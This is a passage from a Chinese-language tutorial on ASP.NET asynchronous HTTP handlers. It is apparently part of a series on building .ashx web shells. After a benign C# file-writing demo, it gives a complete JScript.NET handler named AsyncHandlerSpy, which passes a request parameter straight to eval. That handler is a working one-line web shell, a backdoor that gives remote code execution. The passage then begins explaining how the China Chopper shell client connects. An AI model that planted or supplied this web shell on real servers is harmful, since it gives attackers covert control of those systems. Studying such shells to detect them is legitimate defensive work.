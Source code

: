 3.2、异步处理：IHttpAsyncHandler 
---------------------------------

在ASP.NET程序中，适当地使用异步是可以提高服务端吞吐量的。
这里所说的适当地使用异步，一般是说：当服务器的压力不大且很多处理请求的执行过程被阻塞在各种I/O等待（以网络调用为主）操作上时，
而采用异步来减少阻塞工作线程的一种替代同步调用的方法。
反之，如果服务器的压力已经足够大，或者没有发生各种I/O等待，那么，在此情况下使用异步是没有意义的。那么在HttpHandler的接口里要想支持异步，则必须使用另一个接口：IhttpAsyncHandler

![](media/4770202468db077c7f2569a7685389bd.png)

这个接口也很简单只有二个方法，在.net中，异步都是建立在IAsyncResult接口之上的，而BeginProcessRequest
/
EndProcessRequest是对这个接口最直接的使用方式。笔者通过创建一个C\#的Demo来演示异步处理的过程

| public class ashxSpy1 : IHttpAsyncHandler { public delegate void someDelegate(); public static void writeFile() { StreamWriter wickedly = File.CreateText("d:\\\\test.txt"); wickedly.Write("test"); wickedly.Flush(); wickedly.Close(); } public IAsyncResult BeginProcessRequest(HttpContext context, AsyncCallback asyncCallback, object obj ) { someDelegate someDelegate = new someDelegate(writeFile); IAsyncResult iAsyncResult = someDelegate.BeginInvoke(asyncCallback, context); return iAsyncResult; } public void EndProcessRequest(IAsyncResult result){} bool IHttpHandler.IsReusable { get { return true; } } void IHttpHandler.ProcessRequest(HttpContext context){} } |
|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


值得注意的是ProcessRequest方法和IsReusable属性可以不实现它们，但必须要保留下来，因为这个方法也是接口的一部分。核心方法是BeginProcessRequest，其中参数asyncCallback是一个内部委托，那么就需要定义一个委托，将来通过异步的方式回调自定义的方法writeFile
来写入文件。

知道原理后就开始着手打造异步调用的一句话木马，和IhttpHandler一样需要通过Jscript.Net的eval方法去实现代码执行，有点遗憾之处笔者查询资料后发现Jscript.Net暂时不支持委托类型，不过只需要在BeginProcessRequest方法里增加HttpContext.Current.Response.End();就可以实现功能并且不让程序抛出异常，实现的代码如下：

| \<%\@ WebHandler Language="JScript" class="AsyncHandlerSpy"%\> import System; import System.Web; import System.IO; public class AsyncHandlerSpy implements IHttpAsyncHandler{ function IHttpAsyncHandler.BeginProcessRequest(context : HttpContext,asyncCallback :AsyncCallback , obj : Object ) : IAsyncResult { context.Response.Write("\<H1\>Just for fun, Do not abuse it! Written by \<a href='https://github.com/Ivan1ee'\>Ivan1ee\</a\>\</H1\>"); eval(context.Request["Ivan"]); HttpContext.Current.Response.End(); } function IHttpAsyncHandler.EndProcessRequest(result : IAsyncResult){} function IHttpHandler.ProcessRequest(context : HttpContext){} function get IHttpHandler.IsReusable() : Boolean{return false;} } |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


打开浏览器，测试效果如下

![](media/df68d91455973f871b5bca7a35d78566.png)

0X04 菜刀连接 
==============

圈内常说武功再高，也怕菜刀；那么就有必要了解一下菜刀在连接ASPX的时候会发送什么数据了，经过抓包得到下图的请求

![](media/f31536999ba459149cb20b735428fffd.png)
